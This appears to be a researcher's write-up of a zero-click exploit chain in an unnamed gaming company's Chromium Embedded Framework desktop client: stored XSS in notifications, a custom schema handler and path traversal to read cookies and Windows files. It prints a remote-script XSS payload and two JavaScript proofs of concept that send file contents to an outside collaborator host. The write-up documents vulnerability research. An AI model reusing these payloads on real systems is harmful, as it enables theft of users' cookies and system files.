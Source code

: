 # How did I break out of the sandbox using built-in feature

One day I decided to test a famous gaming company’s desktop client (Sadly they haven’t fixed it yet :( ), and I ended up finding a 0Click System File Read

## About the target:

It is a desktop client using Chromium Embedded Framework https://github.com/chromiumembedded/cef for rendering all the HTML/JS files, and it is used to help users (Gamers) install their games and track progress on each game.

## Chat feature and useless XSS in notification:

While spraying payloads around the desktop client, I stumbled on a stored XSS that gets rendered on the notification pop-up.

Briefly, this XSS wasn’t that useful because the client is storing cookies on files and the there’s a limitation on the vulnerable input (30 characters) payload like this would work `<script src=https://lol5.xyz/>`

## Failed attempt finding 1Days on CEF library:

After reading every page on the library’s wiki 

[cef /](https://bitbucket.org/chromiumembedded/cef/wiki/browse/)

and trying some of CVE’s  POCs in order to achieve code execution or DOS, all attempts finished with frustration and failure.

And the most frustrating part is the framework’s javascript API is so sandboxed and limited that I can’t call for example`file://` from object and iframe tags.

## PAK files for the truth:

After a day I went back and tried to analyze the client and its features, while exploring some of the client file, I noticed some`.PAK` files, for those who can’t get what is happening  from my experience with pentesting thick clients, usually PAK files are used to store static files that could be rendered on the application.

Extracted the files and read some of HTML files and js files, here something caught my attention which was code that looked like this:

```html
<style>
  @import url("schema://localhost/cache/sytle.css") ;
</style>
```

## How static files are server to the client:

From my understanding of the pak files and how the client is functioning and visualized the flow with this modest design 😑.

![g](https://i.ibb.co/ZBdxxFy/uply.png)
the question here is how I used this to my advantage?

When I saw this I had a theory of using the schema to retrieve the cookies from client’s files.

I made a POC that looks like this :

```jsx
Promise.all(   fetch('schema://localhost/cache/style.css').then(x => x.text())  ).then((sampleResp) => {   document.location='http://3w0v6pygzk4cbjxec4qdnlja41avyk.oastify.com/?payload='+sampleResp;  });
```

Then went to the vulnerable input and put my payload `<script src=https://[lol5.xyz](http://lol5.xyz)/>`  where lol5.xyz is a local domain where I’m hosting the POC, and I was able to retrieve the css file.

after this, I went for the cookies and I got success.

But I didn’t stop here, I remembered that the client asks for admin privileges when opening it.

then I tried to traverse back to the system files, I made a POC :

```jsx
Promise.all(   fetch('schema://localhost/cache/../../../../../Windows/LogAdmins.txt').then(x => x.text())  ).then((sampleResp) => {   document.location='http://3w0v6pygzk4cbjxec4qdnlja41avyk.oastify.com/?payload='+sampleResp;  });
```

Since my computer is linked to an AD that’s why I aimed for the `LogAdmins.txt` , finally I was able to retrieve LogAdmins.txt file. 

![loool.png](https://i.ibb.co/vqMr2H7/loool.png)

funny thing is that XSS requires no user interaction and I can execute it on any user using this desktop client.
